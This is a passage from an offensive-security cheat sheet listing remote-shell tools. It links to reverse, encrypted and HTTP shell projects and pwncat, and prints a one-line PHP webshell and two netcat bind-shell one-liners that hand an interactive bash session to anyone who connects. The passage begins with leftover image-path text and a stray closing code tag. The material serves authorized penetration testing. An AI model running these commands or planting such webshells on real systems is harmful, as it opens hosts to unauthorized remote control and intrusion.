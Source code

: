 </code></pre>

### ConPtyshell (fully interactive);

[https://github.com/antonioCoco/ConPtyShell](https://github.com/antonioCoco/ConPtyShell)

## Webshells

Kali Linux includes several PHP webshells in the /usr/share/webshells/

## PHP

### Universal PHP shell

[https://github.com/WhiteWinterWolf/wwwolf-php-webshell](https://github.com/WhiteWinterWolf/wwwolf-php-webshell)

### Shortest PHP webshell

[https://github.com/Xib3rR4dAr/shortest-php-webshell](https://github.com/Xib3rR4dAr/shortest-php-webshell)

```php
<?=`ls`;
```

## Encrypted revshells (SSH/HTTPS)

[#encrypted-ssl-tls-c-reverse-shell-https](../post-exploitation/windows/av-evasion.md#encrypted-ssl-tls-c-reverse-shell-https "mention")

[https://github.com/NHAS/reverse\_ssh](https://github.com/NHAS/reverse_ssh)

## pwncat

[https://github.com/calebstewart/pwncat](https://github.com/calebstewart/pwncat)

## Bind shells

{% code overflow="wrap" %}
```bash
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Bind%20Shell%20Cheatsheet.md

nc -nlvp 51337 -e /bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 51337 >/tmp/f
```
{% endcode %}

## HTTP Reverse Shell

{% embed url="https://github.com/apurvsinghgautam/HTTP-Reverse-Shell" %}
